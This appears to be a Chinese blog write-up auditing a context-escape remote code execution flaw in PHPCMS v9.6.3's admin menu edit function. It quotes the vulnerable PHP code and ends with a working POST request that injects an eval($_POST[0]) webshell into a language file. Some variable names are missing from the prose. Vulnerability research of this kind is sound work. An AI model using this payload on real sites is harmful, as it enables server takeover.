





浅析 PHPCMSv9.6.3 上下文逃逸导致RCE
作为 PHPCMS 系列分析的最后一个漏洞，算是为这个系列画上句号。
PHP 特性
首先了解一个 PHP 特性，当 PHP 读取数组键值对时，读取出来的键是会自动去除转义
//示例，读取数组中的键
<?php
$L1nJ3['1'] = '1\'';
print($L1nJ3['1']);可以看到读取出来的值是不是 \' 而是 '
代码审计
代码定位在 phpcms/modules/admin/menu.php 81-101行
function edit() {
if(isset($_POST['dosubmit'])) {
$id = intval($_POST['id']);
//print_r($_POST['info']);exit;
$r = $this->db->get_one(array('id'=>$id));
$this->db->update($_POST['info'],array('id'=>$id));
//修改语言文件
$file = PC_PATH.'languages'.DIRECTORY_SEPARATOR.'zh-cn'.DIRECTORY_SEPARATOR.'system_menu.lang.php';
require $file;
$key = $_POST['info']['name'];
if(!isset($LANG[$key])) {
$content = file_get_contents($file);
$content = substr($content,0,-2);
$data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";
file_put_contents($file,$data);
} elseif(isset($LANG[$key]) && $LANG[$key]!=$_POST['language']) {
$content = file_get_contents($file);
$content = str_replace($LANG[$key],$_POST['language'],$content);
file_put_contents($file,$content);
}
$this->update_menu_models($id, $r, $_POST['info']);
//结束语言文件修改
showmessage(L('operation_success'));
} else {
...
}
}指定文件路径并引用文件，这个路径定死了不可控
$file = PC_PATH.'languages'.DIRECTORY_SEPARATOR.'zh-cn'.DIRECTORY_SEPARATOR.'system_menu.lang.php';
//phpcms/languages/zh-cn/system_menu.lang.php
require $file;文件内的格式如下，全是 PHP 数组形式

$key = $_POST['info']['name'];
if(!isset($LANG[$key])) {
$content = file_get_contents($file);
$content = substr($content,0,-2);
$data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";
file_put_contents($file,$data);而在之前 PHPCMSV9 路由分析篇中提到过，其 $_POST 传入的值会先走过 param.class.php，然后才是 application.class.php::init() -> call_user_func() 调用指定类文件 而 param 类的构造方法中进行了转义，我们无法直接在 menu.php::exit() if 内部绕掉转义
class param {
//路由配置
private $route_config = '';
public function __construct() {
if(!get_magic_quotes_gpc()) {
$_POST = new_addslashes($_POST);
$_GET = new_addslashes($_GET);
$_REQUEST = new_addslashes($_REQUEST);
$_COOKIE = new_addslashes($_COOKIE);
}再看 elseif，假设我们在第一次发包后再发一次，那么此时 system_menu.lang.php 文件内已经写入了键值对，因此 isset(key]) 会返回 true，而 key] 上面在 PHP特性中分析过，取出来会自动进行去除转义操作，因此 key]!=$_POST[’language’] 也返回 true
elseif(isset($LANG[$key]) && $LANG[$key]!=$_POST['language']) {
$content = file_get_contents($file);
$content = str_replace($LANG[$key],$_POST['language'],$content);
file_put_contents($file,$content);
}达成条件，进入 elseif 函数体内，上下文逃逸的关键 str_replace，search为 key] 而写入的是带有转义的 假设第一次写入 LANG['1']='1\''，那么 LANG[key] 此时取出来为 1'，在上下文中找并替换为 _POST[’language’]，即：
$LANG['1'] -> $LANG['1\']那么此时语法上是不是就少了一个引号，这有点像序列化字符串逃逸，引号被整没了，那么后面的字符就可以逃逸出来
$LANG[']1//'] = ']1//\'' -> $LANG['1//\'] = ']1//\''那么 1 就逃逸出来了！我们只需要将 1 换为危险的 php 木马即可完成 RCE 利用
漏洞验证
首先登录后台，拿到认证凭证，否则类文件都访问不了就弹警告了 然后发包
/index.php?m=admin&c=menu&a=edit&pc_hash=tigdXO&id=1
POST：dosubmit=1&info[name]=];eval($_POST[0]);//&language=];eval($_POST[0]);//'  
PS. 虽然 PHPCMS 系列结束了，但 PHP 安全研究才刚刚开始，PHP 作为安全问题无穷无尽的语言，还有太多等着探索